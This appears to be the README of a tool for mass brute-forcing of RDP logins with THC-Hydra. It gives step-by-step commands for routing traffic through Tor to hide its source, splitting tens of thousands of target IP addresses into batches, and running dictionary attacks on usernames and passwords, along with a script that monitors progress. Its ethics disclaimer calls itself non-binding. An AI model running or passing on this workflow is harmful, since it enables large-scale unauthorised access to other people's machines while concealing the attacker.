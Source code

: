 # RDP Mass Attack & Monitor

Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

#### As you know THC-Hydra is not very happy with massive lists when attacking RDP. It either errors out completely or provides false negatives.

![monitor sh](https://user-images.githubusercontent.com/100805450/156768359-9081427b-199a-40ed-a69e-31495a633878.png)

------------

### Prerequisites:
As you might understand from the description it uses thc-hydra (tested on v.9.3)
Use the latest release or compile it yourself:
https://github.com/vanhauser-thc/thc-hydra

1. Tor services are required, remove code in `attack.sh` below to not use proxies.
```bash
  HYDRA_PROXY=socks5://l:p@127.0.0.1:9050
  export HYDRA_PROXY
  printenv | grep HYDRA
  sleep 5
```
2. Create folders for IP source lists and used IP source lists:
```bash
mkdir data/ data-tested/
```
3. Have the IP list split into many files with 4-5 IP addresses each.
Example: 50,000 IP List should become 10,000 files with 5 IPs each.
```bash
# make sure you are inside source folder when running this command
split ip-list.txt -l 5
```
4. If you want to use username list instead one username or you want to use one password, edit `attack.sh` accordingly:
```bash
hydra -L usernames.lst -P "$password"
```
```bash
hydra -l admin -p password
```
```bash
hydra -L usernames.lst -P "$password"
```
------------

### Usage:

```bash
chmod +x attack.sh
```
```bash
./attack.sh <ip-list-location> <dictionary-location>
# example:
./attack.sh data wordlist/dict.txt
# ^ will use every file in /home/<your user>/data/ folder as IP list and attack it with /home/<your user>/wordlist/dict.txt wordlist
```
Script moves the used list file to "data-tested" folder and takes the next one from supplied folder. Did this for easier resume on crash or on stop.

------------

### Monitor.sh Usage:
```bash
chmod +x monitor.sh
watch -n 5 --color ./monitor.sh
```
